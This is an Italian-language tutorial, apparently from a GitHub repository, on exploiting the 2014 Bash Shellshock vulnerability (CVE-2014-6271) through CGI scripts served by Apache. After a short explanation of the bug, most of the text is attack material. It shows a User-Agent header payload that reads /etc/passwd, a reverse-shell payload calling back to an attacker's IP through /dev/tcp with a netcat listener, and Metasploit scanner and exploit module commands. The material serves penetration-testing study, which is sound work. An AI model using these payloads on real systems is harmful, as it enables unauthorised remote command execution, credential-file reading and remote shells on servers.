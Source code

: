 # Bash CVE-2014-6271 ShellShock

**ShellShock** è una vulnerabilità critica scoperta nel 2014 che interessa molte versioni del linguaggio **Bash** su sistemi *Unix-like*. Consente ad un attaccante di eseguire comandi arbitrari su un server vulnerabile sfruttando variabili d'ambiente manipolate, comunemente attraverso script **CGI** serviti da **Apache**.

## Bash e CGI

**Bash (Bourne Again Shell)** è una shell a riga di comando molto diffusa nei sistemi Linux. <br>
Una **shell** è l'interfaccia testuale che consente l'interazione diretta con il sistema operativo, eseguendo comandi e script.

**CGI (Common Gateway Interface)** è uno standard che permette a un web server (es. Apache) di eseguire programmi o script (come `.cgi` o `.sh`) esterni, al fine di generare contenuti dinamici. <br>
Quando un utente visita una pagina che richiede un'elaborazione, il server Apache invoca lo script CGI per processare l'informazione.

Gli script `.cgi` sono spesso scritti in Bash, Python o Perl, ed eseguono codice con i permessi del server web. <br>
Se la shell di riferimento è una versione di Bash vulnerabile, gli script possono essere utilizzati per iniettare comandi arbitrari sfruttando ShellShock.

La vulnerabilità è causata dal modo in cui Bash gestisce **le variabili d'ambiente contenenti dichiarazioni di funzione**: 
```bash
() { :; }; echo vulnerabile
```
Questa stringa dovrebbe essere interpretata come una funzione vuota, ma Bash esegue anche il comando `echo vulnerabile`, rendendo possibile l'injection di comandi.

---

## Exploitation manuale via BurpSuite

Impostiamo il proxy FoxyProxy su Firefox e abilitiamo **Intercept** su BurpSuite.

Carichiamo la pagina CGI e intercettiamo la richiesta HTTP. Cerchiamo l'header:
```http
User-Agent: Mozilla/5.0 (...)
```
Sostituiamo il valore con:
```bash
() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
```
- `() { :; };` → definisce una funzione vuota
- `echo; echo;` → aggiunge output visibile per test
- `/bin/bash -c '<comando>'` → esegue il comando specificato

adesso abbiamo la possilitá di lanciare i comandi che vogliamo e quindi possiamo aprire una reverse shell dando il comando:

`nc -nvlp <PORTA>`

per configurare Netcat in modo che sia in ascolto su una determinata porta

successivamente possiamo usare il seguente comando
```bash
bash -i >& /dev/tcp/<IPAttaccante>/<PORTA> 0>&1
```
da inserire su BurpSuite.

Quindi il comando completo sará:
```bash
() { :; }; /bin/bash -c 'bash -i >& /dev/tcp/<IPAttaccante>/<PORTA> 0>&1'
```

Appena il comando viene eseguito, avremo una reverse shell interattiva dal target vulnerabile.

---

## Exploitation automatizzato con Metasploit

### Scanner:
```bash
use auxiliary/scanner/http/apache_mod_cgi_bash_env
set RHOSTS <IP>
set TARGETURI /cgi-bin/script.cgi
run
```

### Exploit:
```bash
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS <IP>
set TARGETURI /cgi-bin/script.cgi
set PAYLOAD cmd/unix/reverse_netcat #meglio lasicare quello di default
set LHOST <IPAttaccante>
set LPORT <Porta>
run
```
Questo modulo automatizza l'invio del payload e apre una reverse shell sulla macchina target.

>Consiglio di vedere la pagina <a href="https://github.com/opsxcq/exploit-CVE-2014-6271">GitHub</a> per avere maggiori dettagli.

---
